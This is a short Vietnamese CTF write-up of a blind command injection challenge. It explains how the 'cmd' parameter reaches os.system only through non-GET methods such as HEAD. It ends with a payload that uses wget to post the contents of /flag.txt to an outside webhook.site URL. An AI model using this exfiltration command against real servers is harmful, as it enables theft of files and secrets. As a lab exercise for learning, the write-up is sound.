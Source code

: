 ```yaml
---
title: Blind Command Injection
categories: [CTF, Cookie Hân Hoan, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

## Tổng quan

- Để giải được bài này ta cần kiến thức về OS cmd và cách dùng webhook cũng như HTTP request.
- công cụ: burpsuite,webhook

## Phân tích bài

- Vào trang web ta thấy như hình, khá là trống trải và chỉ có mỗi câu lệnh @@ !

<img src="/assets/writeup/cookie/Blind Command Injection/0.png">
- Đề bài đã hint cho ta 1 số thứ như sau:
    - If no value is provided for 'cmd,' it returns the string "?cmd=[cmd]"
    - If the HTTP method is not GET (which means it's another method, like POST or PUT, HEAD), it executes the command specified in the 'cmd' parameter using os. system(cmd).
    - Do you try the OPTIONS Method?
- còn có cả OOB Method tuy nhiên phần này mình ko biết làm nên bỏ qua, mình sẽ khai thác theo hướng khác ^^

- test thử `?cmd=”gì đó”` thì không được rồi vì nếu `HTTP method là GET` thì nó luôn trả về 1 chuỗi kí tự text bình thường

<img src="/assets/writeup/cookie/Blind Command Injection/1.png">

- Vì vậy nếu muốn thực hiện được os.cmd thì ta chỉ cần dùng các http method khác, như ( (POST,PUT,HEAD….)

<img src="/assets/writeup/cookie/Blind Command Injection/2.png">

- Tuy nhiên ta thấy ở đây server đã filter và không dùng được 1 số METHOD, nhưng vẫn dùng được thằng HEAD

<img src="/assets/writeup/cookie/Blind Command Injection/3.png">

- ta thử thực thi 1 số lệnh như `ls, ls -la /, id….` nhưng không thực thi được, hoặc thực thi được nhưng server không trả về cho ta nội dung gì.
- đến lúc này chúng ta phải theo phương pháp hướng ngoại, tức phải bắn file nội dung ra bên ngoài, tuy nhiên ta cần phải test thử xem rằng liệu phương pháp đó có khả thi ko, tức là có được kết nối mạng ra ngoài với server khác không?
- lười viết quá nên ae tạo webhook + dùng lệnh wget là được nhé =))))

---

Payload: 

**`?cmd**=wget --post-data="$(cat /flag.txt)" [https://webhook.site/cd913109-8044-472c-9434-e5cd63dce274](https://webhook.site/cd913109-8044-472c-9434-e5cd63dce274)`

<img src="/assets/writeup/cookie/Blind Command Injection/4.png">
